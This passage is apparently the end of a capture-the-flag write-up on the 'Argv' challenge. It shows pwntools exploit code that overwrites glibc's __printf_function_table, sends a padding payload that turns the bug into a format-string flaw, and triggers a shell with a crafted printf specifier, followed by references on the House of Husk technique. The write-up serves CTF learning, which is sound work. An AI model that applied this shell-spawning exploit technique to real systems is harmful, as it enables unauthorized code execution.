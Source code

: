 ```python

print(f"[*] Set __printf_function_table to 1 ")
write_64(function_table,p64(1)) # ensure __printf_function_table is not NULL

payload=b"\x00" * (360) + p64(buffer_start) # Convert this issue into a format string vulnerability
target.sendline(payload)
target.recv() # Receive garbage data

# Trigger shell
shell=b"%."+ str(u16(b'sh')).encode() + b"?"  
target.sendline(shell)
target.interactive()
```

![](/images/ImaginaryCTF_-_Argv/Pasted_20241111201745.png)


### References
* https://linux.die.net/man/3/strchrnul
* https://maxwelldulin.com/BlogPost/House-of-Husk-In-Depth-Explanation
* https://ptr-yudai.hatenablog.com/entry/2020/04/02/111507

